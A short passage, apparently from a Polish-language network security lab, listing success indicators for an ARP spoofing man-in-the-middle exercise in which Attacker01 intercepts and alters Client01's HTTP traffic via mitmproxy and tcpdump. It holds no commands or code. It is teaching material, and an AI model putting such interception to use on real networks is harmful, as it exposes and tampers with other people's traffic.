

### Wskaźniki sukcesu

- ✓ ARP cache w Client01 pokazuje Mac adres Attacker01 dla IP Server01
- ✓ mitmproxy wyświetla przechodzące żądania HTTP
- ✓ Strona w przeglądarce Client01 zmienia się z zielonej na czerwoną
- ✓ tcpdump pokazuje przepływ ruchu przez Attacker01
- ✓ Logi mitmproxy rejestrują wszystkie żądania

---